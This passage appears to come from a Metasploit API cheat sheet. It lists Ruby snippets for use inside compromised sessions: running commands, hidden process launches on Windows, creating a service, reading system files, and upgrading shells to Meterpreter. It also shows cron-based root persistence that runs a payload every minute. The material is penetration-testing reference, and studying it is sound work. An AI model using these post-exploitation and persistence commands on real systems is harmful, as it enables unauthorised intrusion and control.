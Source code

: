 ## EXECUTE REMOTE COMMANDS

- **execute command and display results**

      output = cmd_exec("whoami")
      print_good("whoami: #{output}")

- **execute bash commands (/bin/sh)**

      cmd_exec("sh /root/test.sh")
      cmd_exec("mkdir -m 700 -p /root/test.s")

- **Execute remote command (windows)**

      proc = session.sys.process.execute("cmd.exe /c start calc.exe", nil, {'Hidden' => true})

- **Use backslash(s) to escape special caracters ["*\$!]**

      proc = session.sys.process.execute("cmd.exe /c sc create #{sname} bin= \"C:\\Users\\Desktop\\fg.exe\"", nil, {'Hidden' => true})

- **The shell.read() method provides the ability to read output from a shell session.**

      session.shell_read("/etc/crontab")

- **session.shell_upgrade will attempt to spawn a new Meterpreter session through an existing Shell session.**<br />
'This requires that a multi/handler be running and that the host and port of this handler is provided to this method.'

      session.shell_upgrade

- **Executing a shell command (not meterpreter)**

      session.shell_command("echo \"* * * * * root /root/payload.sh\" >> /etc/crontab")
      session.shell_command("service cron reload")

- **elevate session privileges before running module**<br />
'remmenber that **end** closes loop functions.'

      client.sys.config.getprivs.each do |priv|
      end

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit-API/my-API-Cheat-sheet.md#metasploit-api-cheat-sheet)

---

<br /><br /><br />

## STDAPI OPERATIONS

- **simple read file**

      output = read_file("/proc/scsi/scsi")
      print_status("contents: #{output}")
